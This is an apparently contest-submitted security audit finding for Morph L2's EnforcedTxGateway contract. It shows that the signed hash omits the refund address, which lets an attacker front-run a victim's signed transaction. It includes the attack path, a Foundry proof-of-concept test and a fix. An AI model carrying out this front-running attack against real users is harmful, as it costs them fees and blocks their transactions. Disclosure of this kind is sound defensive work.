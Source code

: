 Polished Inky Stork

Medium

# Grifieng of `EnforcedTxGateway::sendTransaction`

### Summary

The missing `_refundAddress` on `_structHash`, allows malicious users can grifeing of someone's `sendTransaction` transaction.

### Root Cause

Look at here [112-140](https://github.com/sherlock-audit/2024-08-morphl2/blob/98e0ec4c5bbd0b28f3d3a9e9159d1184bc45b38d/morph/contracts/contracts/l1/gateways/EnforcedTxGateway.sol#L112-L140):
```solidity
  function sendTransaction(
        address _sender,
        address _target,
        uint256 _value,
        uint256 _gasLimit,
        bytes calldata _data,
        uint256 _deadline,
        bytes memory _signature,
=>   address _refundAddress
    ) external payable whenNotPaused {
        // solhint-disable-next-line not-rely-on-time
        require(block.timestamp <= _deadline, "signature expired");

        uint256 _nonce = nonces[_sender];
        bytes32 _structHash = keccak256(
=>         abi.encode(_ENFORCED_TX_TYPEHASH, _sender, _target, _value, _gasLimit, keccak256(_data), _nonce, _deadline)
        );
        unchecked {
            nonces[_sender] = _nonce + 1;
        }

        bytes32 _hash = _hashTypedDataV4(_structHash);
        address _signer = ECDSAUpgradeable.recover(_hash, _signature);

        // no need to check `_signer != address(0)`, since it is checked in `recover`.
        require(_signer == _sender, "Incorrect signature");

 =>  _sendTransaction(_sender, _target, _value, _gasLimit, _data, _refundAddress);
    }
```
see that, in `_structHash` there is no `_refundAddress`. 

So, a malicious user can perform a `sendTransaction` with parameters from the user and the refund address will be filled in by the malicious user.

### External pre-conditions

- The victim performs the `sendTransaction` first. With their signature.

### Attack Path

1. The user performs a `sendTransaction` with their parameters.
2. The attacker sees this and executes the user's tx (with front running), modifying `_refundAddress` with the attacker's address.
3. As a result, the user transaction will fail.

### Impact
- Users lose about $20-$50 in fees, as this contract is deployed on ethereum.
- The user transaction will fail.
- Then when the user does it again with the same parameters, it will fail, because the nonce has increased.
- If the user performs txs again with the same parameters but with a new nonce, then the tx will be duplicated because it has already done by the attacker.

### PoC

- PoC with proxies is too long, so this is a simple poc.
- Modify `EnforcedTxGateway.sol` like this:
```solidity
 constructor() {
    }

 function _sendTransaction(
        address _sender,
        address _target,
        uint256 _value,
        uint256 _gasLimit,
        bytes calldata _data,
        address _refundAddress
    ) internal nonReentrant {
        address _messageQueue = messageQueue;

        // charge fee
        uint256 _fee = 1e14;
        require(msg.value >= _fee, "Insufficient value for fee");
        if (_fee > 0) {
            (bool _success, ) = feeVault.call{value: _fee}("");
            require(_success, "Failed to deduct the fee");
        }

        // append transaction

        // refund fee to `_refundAddress`
        unchecked {
            uint256 _refund = msg.value - _fee;
            if (_refund > 0) {
                (bool _success, ) = _refundAddress.call{value: _refund}("");
                require(_success, "Failed to refund the fee");
            }
        }
    }
```
- Run PoC with `forge test -vvvv --match-test test_front_running_sendTransaction`

#### POC
```solidity
pragma solidity =0.8.24;
import "forge-std/Test.sol";

import "../l1/gateways/EnforcedTxGateway.sol";
import {ITransparentUpgradeableProxy, TransparentUpgradeableProxy} from "@openzeppelin/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";
import {ECDSAUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/cryptography/ECDSAUpgradeable.sol";

contract EnforcedTxGatewayTest is Test {
    using ECDSAUpgradeable for bytes32;

    EnforcedTxGateway enforcedTxGateway;

    uint256 internal victimPrivateKey;
    address attacker;
    address victim;
    address target;

    bytes32 private constant _ENFORCED_TX_TYPEHASH =
        keccak256(
            "EnforcedTransaction(address sender,address target,uint256 value,uint256 gasLimit,bytes data,uint256 nonce,uint256 deadline)"
        );

    function setUp() public {
        enforcedTxGateway = new EnforcedTxGateway();
        enforcedTxGateway.initialize(address(0x123), address(0x567));
        attacker = makeAddr("attacker");
        target = makeAddr("target");

        victimPrivateKey = 0xa11ce;
        victim = vm.addr(victimPrivateKey);
        deal(attacker, 2 ether);
        deal(victim, 2 ether);
    }

    function test_front_running_sendTransaction() public {
        // parameter
        address _sender = victim;

        address _target = target;
        uint256 _value = 0;
        uint256 _gasLimit = 21000;
        bytes memory _data = abi.encode("helloworld");
        uint256 _nonce = 0;
        uint256 _deadline = block.timestamp + 4200;

        bytes32 _structHash = keccak256(
            abi.encode(_ENFORCED_TX_TYPEHASH, _sender, _target, _value, _gasLimit, keccak256(_data), _nonce, _deadline)
        );

        bytes32 _hash = _hashTypedDataV4(_structHash);

        (uint8 v, bytes32 r, bytes32 s) = vm.sign(victimPrivateKey, _hash);
        bytes memory signature = abi.encodePacked(r, s, v);

        vm.startPrank(attacker);
        enforcedTxGateway.sendTransaction{value: 1 ether}(
            _sender,
            _target,
            _value,
            _gasLimit,
            _data,
            _deadline,
            signature,
            attacker
        );

        vm.stopPrank();

        // After attacker run front running, victim perform they tx and it's will fails

        vm.startPrank(victim);
        vm.expectRevert("Incorrect signature");
        enforcedTxGateway.sendTransaction{value: 0.1 ether}(
            _sender,
            _target,
            _value,
            _gasLimit,
            _data,
            _deadline,
            signature,
            victim
        );
    }

    function _hashTypedDataV4(bytes32 structHash) internal view virtual returns (bytes32) {
        return ECDSAUpgradeable.toTypedDataHash(enforcedTxGateway.DOMAIN_SEPARATOR(), structHash);
    }
}

```

### Mitigation

Packed a `_refundAddress` on this:
 `bytes32 _structHash = keccak256(
            abi.encode(_ENFORCED_TX_TYPEHASH, _sender, _target, _value, _gasLimit, keccak256(_data), _nonce, _deadline, _refundAddress)
        );`